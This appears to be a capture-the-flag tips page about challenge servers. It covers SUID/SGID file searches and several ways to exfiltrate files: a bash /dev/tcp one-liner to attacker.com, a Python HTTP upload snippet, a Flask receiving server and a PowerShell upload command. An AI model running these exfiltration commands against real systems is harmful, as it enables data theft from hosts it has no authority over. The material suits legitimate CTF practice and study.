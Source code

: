 # Tips

The servers generally don't have many useful binaries on them, which actually makes it easy to find stuff.

## Interesting files
* Python3 (limited libraries)
* Perl (limited libraries)
* find / -perm /4000
* find / -perm /2000
* find / -perm /6000
* /entrypoint.sh
* /usr/bin/runtoanswer

## File Transfer

File transfer can be carried out with [bash](https://gtfobins.github.io/gtfobins/bash/#file-upload) (most reliable thus far):

```bash
export RHOST=attacker.com
export RPORT=12345
export LFILE=file_to_send
bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
```

File transfer can be carried out with [Python](https://gtfobins.github.io/gtfobins/python/#file-upload). I generally base64 things first to make it easier. This adds a name parameter:

```bash
export URL="http://[YOUR_SERVER]/"
export LFILE=/tmp/test.txt

base64 [target_file] > $LFILE
python3 -c 'import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
else: import urllib as u, urllib2 as r
r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read(), "name":e["LFILE"]).encode()))'
```

Then on the receiving end, [URL Decode and Base64 decode](https://gchq.github.io/CyberChef/#recipe=URL_Decode()From_Base64('A-Za-z0-9%2B/%3D',true,false)). Depending on how you receive the data (e.g. `netcat`), you might need to cut off the HTTP headers and parameters.

```python
import os
from flask import Flask, flash, request, redirect, url_for, make_response
from werkzeug.utils import secure_filename
from hashlib import md5
from time import time

UPLOAD_FOLDER = './'

app = Flask(__name__)
app.config['UPLOAD_FOLDER'] = UPLOAD_FOLDER

def inc_counter():
    counter = counter + 1

@app.route('/', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        data = request.form.get('d')
        name = request.form.get('name')

        if data is None:
            return make_response("No data found in parameter d. Run curl --data \"d=[DATA]\" [url] to send data", 400)

        if name is None:
            name = "{}_{}.out".format(md5(data.encode()).hexdigest(), str(int(time())))

        name = os.path.basename(name)

        print("Saving file: " + name)

        with open(name, "wb") as f:
            f.write(data.encode())

        return "name: {n} saved".format(n=name, d=data)

    return '''
    <!doctype html>
    <title>Upload new File</title>
    <h1>Upload new File</h1>

POST a parameter 'd' with file info
    </form>
    '''

if __name__ == "__main__":
    import sys

    host = '0.0.0.0'
    port = 80

    if len(sys.argv) > 1:
        host = sys.argv[1]

    if len(sys.argv) > 2:
        port = sys.argv[2]

    app.run(debug=True, host=host, port=port)

```

Will do the job, minus base64

On Powershell hosts, this is an easy way to get files off:

```powershell
$filepath = "file/to/send.txt"
Invoke-WebRequest -uri $uri -Method POST -Infile $filepath -Credential $usercreds
```

I cheated and listened with `nc` to get it off, but you have options.
